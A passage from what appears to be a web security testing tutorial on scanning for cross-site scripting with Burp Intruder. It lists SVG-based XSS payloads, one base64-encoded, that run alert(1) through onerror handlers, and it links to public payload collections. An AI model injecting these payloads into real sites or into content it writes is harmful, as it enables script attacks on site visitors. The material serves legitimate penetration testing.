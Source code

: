 ```
<svg><use href="data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyB4bWxuczp4bGluaz0naHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluaycgd2lkdGg9JzEwMCcgaGVpZ2h0PScxMDAnPgo8aW1hZ2UgaHJlZj0iMSIgb25lcnJvcj0iYWxlcnQoMSkiIC8+Cjwvc3ZnPg==#x" /></svg>
<svg id='x' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' width='100' height='100'><image href="1" onerror="alert(1)" /></svg>
<svg><use href="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg'><image href='1' onerror='alert(1)' /></svg>#x" />
<svg><animate xlink:href="#x" attributeName="href" values="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg'><image href='1' onerror='alert(1)' /></svg>#x" /><use id=x />
{% endraw %}
```

More payload:

- [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

## 3. Start test attack

The most simple attack (or scan) can be made through Burp’s [Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder/using) by these steps:

1. Refresh a target page in the browser;
2. Open: Burp → Logger;
3. Find a root HTTP/HTTPS request to the target page;
4. Choose «Send to Intruder» in the request’s menu:

![Send to Intruder](/assets/2022-05-10/05-send-to-intruder.png)
